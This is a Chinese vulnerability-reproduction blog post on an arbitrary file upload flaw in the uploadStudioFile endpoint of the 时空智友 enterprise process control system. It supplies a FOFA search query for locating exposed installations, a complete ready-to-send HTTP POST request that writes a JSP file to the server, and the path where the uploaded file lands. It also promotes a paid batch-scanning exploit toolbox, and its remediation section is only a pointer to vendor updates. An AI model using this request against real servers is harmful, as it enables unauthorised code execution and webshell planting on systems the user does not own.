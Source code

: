 #  时空智友企业流程化管控系统uploadStudioFile接口存在任意文件上传漏洞 -老漏洞   
 南风漏洞复现文库   2024-10-23 23:13  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 时空智友企业流程化管控系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
时空智友企业流程化管控系统是一个用于企业流程管理和控制的软件系统。  
## 2.漏洞描述  
  
时空智友企业流程化管控系统是一个用于企业流程管理和控制的软件系统。它旨在帮助企业实现流程的规范化、自动化和优化，从而提高工作效率、降低成本并提升管理水平。时空智友企业流程化管控系统存在任意文件上传漏洞，时空智友企业流程化管控系统uploadStudioFile接口存在任意文件上传漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
时空智友  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3bykQuVhtjkibKubmMr2tnMvebPonGibKYfjbnIRMTkbI547RXeUvrknOib7eSYLdrnibx6ibLEsxrCTzQ/640?wx_fmt=png&from=appmsg "null")  
  
时空智友企业流程化管控系统uploadStudioFile接口存在任意文件上传漏洞  
## 4.fofa查询语句  
  
body="login.jsp?login=null"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/formservice?service=updater.uploadStudioFile  
  
漏洞数据包：  
```
POST /formservice?service=updater.uploadStudioFile HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
Content-Length: 441
Content-Type: application/x-www-form-urlencoded

content=%3c%3fxml%20version%3d%221.0%22%3f%3e%3croot%3e%3cfilename%3e677433.jsp%3c%2ffilename%3e%3cfilepath%3e.%2f%3c%2ffilepath%3e%3cfilesize%3e172%3c%2ffilesize%3e%3clmtime%3e1970-01-01%2008%3a00%3a00%3c%2flmtime%3e%3c%2froot%3e%3c!--%3c%25%20out.print(%22%3cpre%3e%22)%3bout.println(3233%20*%203323)%3bout.print(%22%3c%2fpre%3e%22)%3bnew%20java.io.File(application.getRealPath(request.getServletPath())).delete()%3b%0d%0a%25%3e%0d%0a--%3e
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bykQuVhtjkibKubmMr2tnMvL9INDCmCTiaybG8YzIFwJAoErp1TwkmyumVnkkNicBWOLzR6icvuJL3CQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传后的路径 http://xx.xx.xx.xx/update/temp/studio/677433.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bykQuVhtjkibKubmMr2tnMvAkXBHz7HVqGt3t5I7HniaB7pdzCtfnib9CGVLp5Mt9yTrSRVygQQdszg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bykQuVhtjkibKubmMr2tnMvNvMOlCWwYguXh3In1BOZ5b9s7cRLGZI80R57HadTwxPRJcztQumFYA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bykQuVhtjkibKubmMr2tnMvMJAEEpUic0X8SWK3S2MWX1bB9svoMIFUFAobadrYlrNhtfWJ1RjhTyA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bykQuVhtjkibKubmMr2tnMv5MY4KQibUtLr8ibEoDerD7pbaibtz2fbiaKYH6AQZMl2l9XWjvzQL9alzw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bykQuVhtjkibKubmMr2tnMv3MV3dFDOWKD5gIouS4T4qrcWjv7RBDy550tuJ0rT2Hel4ZA4BO2TNA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bykQuVhtjkibKubmMr2tnMvfTAcRSWiaVQjt3b3E3B9DC3Wa6O7XiaOVAEoiah1JmfLBxbb64s9kh2PQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请关注厂商更新 https://www.sxskzy.com/  
## 8.往期回顾  
  
[明源云ERP报表服务GetErpConfig.aspx接口存在敏感信息泄露漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487624&idx=1&sn=33135f963826604ee69c3fa856c5c052&chksm=974b9d8fa03c14999e4ffe2b8ebb480471d29c278166864c0d58b06595586ef862c67c8d3182&scene=21#wechat_redirect)  
  
  
[officeWeb365 PW/SaveDraw接口存在任意文件上传漏洞 -老漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487612&idx=1&sn=7eab6f76a8eefdfae301fbce1d4b8484&chksm=974b9d7ba03c146da28d4bad3e7de866b717612911e05fa549cef911510b6dba50d9f157f0ad&scene=21#wechat_redirect)  
  
  
  
  
